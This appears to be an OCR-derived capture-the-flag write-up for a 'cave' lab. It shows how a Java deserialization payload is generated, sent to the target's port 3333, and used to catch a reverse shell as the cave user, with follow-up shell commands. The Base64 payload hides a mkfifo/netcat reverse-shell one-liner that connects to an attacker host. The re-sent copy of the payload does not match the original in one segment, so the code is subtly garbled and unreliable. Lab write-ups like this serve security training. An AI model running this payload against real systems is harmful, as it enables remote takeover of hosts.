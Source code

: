 Commands to Compile and Generate Payload Locally:
    
    javac RPG.java
    java RPG

Output (Example Payload - will vary based on compiler and content):

    abc : rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB%2BAAFMAAZvdXRwdXRxAH4AAXhwdABddHJ5aW5nIjtybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC44LjE5LjEwMyAxMjM0ID4vdG1wL2Y7ZWNobyAidAADYWJjdAAA

Reverse Shell Listener (on attacker machine, 10.8.19.103):

    nc -lvp 1234

Exploiting the Vulnerability (sending payload via nc to port 3333):

The generated Base64 payload was then sent to the target's port 3333, prefixed with action.php?. Note: The original RPG.java code shows that the input s is used to construct a URL http://cave.thm/" + s, so the action.php part is likely treated as the "filename" by the URLConnection. The Base64 string is then the content of that "file".

    nc 10.10.202.200 3333
    
# Input the payload directly, with the IP updated to 10.10.202.200 (from 10.10.216.57, likely a target IP change or host reboot).

    action.php?<xml>rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB%2BAAFMAAZvdXRwdXRxAH4AAXhwdABddHJ5aW5nIjtybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC44LjE5LjEwMyAxMjM0ID4vdGmpL2Y7ZWNobyAidAADYWJjdAAA</xml>

Output (on attacker's netcat listener):
    
    listening on [any] 1234 ...
    connect to [10.8.19.103] from cave.thm [10.10.202.200] 42596
    /bin/sh: 0: can't access tty; job control turned off

A reverse shell was successfully established as the cave user.

Post-Exploitation Commands (as cave user):
    
    ls
    cd /home
    ls
    cd cave
    ls
    cat info.txt

Output Snippets:

# From ls in /home/cave/src:
    Action.class
    RPG.class
    RPG.java
    Serialize.class
    commons-io-2.7.jar
    run.sh
